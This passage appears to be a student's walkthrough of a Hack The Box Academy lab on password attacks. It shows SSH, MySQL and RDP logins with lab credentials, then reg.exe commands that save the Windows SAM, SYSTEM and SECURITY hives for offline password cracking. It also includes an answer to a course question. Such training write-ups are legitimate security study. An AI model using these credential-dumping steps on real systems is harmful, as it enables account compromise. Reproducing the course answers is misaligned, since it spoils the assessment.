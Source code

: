 ```c
ssh sam@10.129.202.64 
sam@10.129.202.64's password:B@tm@n2022!
```

Here we use password: admin to log in to database, that's mean that above default creds worked:
```c
sam@nix01:~$ mysql -u superdba -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 10
Server version: 8.0.28-0ubuntu0.20.04.3 (Ubuntu)

Copyright (c) 2000, 2022, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| users              |
+--------------------+
```

### Attacking SAM

7. Where is the SAM database located in the Windows registry? (Format: ****\***) 
hklm\\sam

8. Apply the concepts taught in this section to obtain the password to the ITbackdoor user account on the target. Submit the clear-text password as the answer.

So firstly we need to RDP to the windows machine via xfreerdp:
```c
xfreerdp /v:10.129.202.137 /u:Bob /p:HTB_@cademy_stdnt!
```

After that we will have an active session of Windows 10. We need to click search bar in the taskbar, down-left corner, and type terminal, to run it as administrator
Then we need to enter one-by-one the following commands:
```c
C:\Windows\system32>reg.exe save hklm\sam C:\sam.save
The operation completed successfully.

C:\Windows\system32>reg.exe save hklm\system C:\system.save
The operation completed successfully.

C:\Windows\system32>reg.exe save hklm\security C:\security.save
The operation completed successfully.

C:\Windows\system32>dir c:\
 Volume in drive C has no label.
 Volume Serial Number is C41A-F2ED

 Directory of c:\

12/14/2020  08:22 PM    <DIR>          PerfLogs
02/08/2022  12:17 PM    <DIR>          Program Files
02/08/2022  12:17 PM    <DIR>          Program Files (x86)
09/19/2024  11:08 AM            65,536 sam.save
09/19/2024  11:09 AM            40,960 security.save
```